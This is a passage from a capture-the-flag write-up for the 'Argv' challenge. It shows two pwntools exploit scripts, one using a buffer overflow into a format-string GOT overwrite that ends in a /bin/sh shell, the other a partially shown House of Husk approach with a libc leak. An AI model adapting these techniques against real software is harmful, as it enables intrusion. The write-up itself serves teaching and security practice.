 ```python


print(f"\n[*] Stage 3: Buffer Overflow to Format string")
print("[+] Buffer starts at : " + str(hex(buffer_start)))
# Null out the stack for better visibility on our writes
payload=b"\x00" * (360) + p64(buffer_start)
target.sendline(payload)



print(f"\n[*] Stage 4: Arbitrary write")
libc_got = libc.address + 0x21a000
strlen_got=libc_got + 0x98
strchrnul_got=libc_got + 0x98 + 32
print("[+] Found libc_got at : " + str(hex(libc_got)))
print("[+] Found strlen got address  at : " + str(hex(strlen_got)))
print("[+] Found strchrnul got address  at : " + str(hex(strchrnul_got)))
write_64(strchrnul_got,system)
target.recv() # Receive the garbage data returned

print(f"\n[*] Stage 5: Spawning shell")
target.sendline(b"/bin/sh\x00")

target.interactive()
exit()
```

![](/images/ImaginaryCTF_-_Argv/Pasted_20241110220811.png)



### Method 2: House of Husk
It is also possible to solve this challenge using the House of Husk Technique. We can create a fake structure and point `__printf_arginfo_table` to the start of the fake structure while overwriting `__printf_arginfo_table` with our forged pointer to a custom function/one gadget. We also need to ensure the value of `__printf_function_table` is not NULL and is set it to 1. So to trigger our exploit we just need to make a call to printf() with the format specifier that we have targeted. More information about this technique can be found [here](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507).


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

filename = './argv'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
e = elf = ELF(filename)
target=process(filename)
main=elf.sym.main


def write_64(write_location,write_value):
	payload=fmtstr_payload(8,{ # injection == 8
		write_location:write_value
	})
	target.sendline(payload)

print(f"\n[*] Stage 1: Leak libc addresses")
payload=b"A" * (360) + p64(elf.got.gets)
target.sendline(payload)

gets_leak=int((u64(target.recv(0x8).ljust(8,b"\x00")))) 
libc.address = gets_leak - libc.sym['gets']
```